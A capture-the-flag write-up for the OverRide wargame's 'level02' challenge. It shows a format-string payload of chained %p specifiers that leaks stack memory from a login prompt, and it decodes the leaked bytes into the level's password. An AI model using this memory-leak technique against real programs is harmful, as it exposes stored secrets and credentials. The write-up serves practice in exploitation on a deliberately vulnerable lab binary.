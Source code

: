 # Write up

By disassembling the `level02` executable, we notice first that we now have an elf64 executable,
but we also notice that we will have a format string bug to exploit, this setup feels pretty familiar.
The `.pass` file contents is stored in a buffer higher in the stack, so we will move the va_arg pointer by chaining %x in the format.
By reading the stack using this payload :
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password:
*****************************************
0x7fffffffe4f0(nil)(nil)0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a08(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x7025702570257025 does not have access!
```
We get some interesting results :
```
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
```
Which seems to be the 40 bytes file contents.
We put the bytes in little endian and convert them to ascii :
```
4868373452506E7551397361354A414558674E5743717A377358476E68354A354D394B6650673348
(using https://www.rapidtables.com/convert/number/hex-to-ascii.html)
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
Which gives us the flag.